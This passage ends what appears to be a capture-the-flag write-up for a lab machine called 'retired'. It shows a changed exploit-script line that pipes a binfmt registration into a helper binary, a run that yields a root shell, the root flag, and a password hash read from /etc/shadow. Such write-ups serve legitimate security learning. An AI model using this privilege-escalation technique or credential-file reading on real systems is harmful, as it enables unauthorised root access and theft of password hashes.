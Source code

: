 That's better, now just change the line in our exploit script to point to that one instead:

```text
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper
```

Finally we can run the exploit and get a root shell:

```text
dev@retired:~$ ./binfmt_rootkit_pencer 
uid=0(root) euid=0(root)

# cat /root/root.txt
e625876b20e8072dc89a6f64e6083a00

# cat /etc/shadow | grep root
root:$y$j9T$WTPWClbhbDs7l.UxQ36u80$ARJoOe6zhfOEca5WFBXjo4fGaxCg1Iof6qTbrfn1CzA:19062:0:99999:7:::
```

All done. I thought that was a pretty difficult box to say it was supposed to be medium, but I did learn some things along the way so definietly worth it. See you next time.

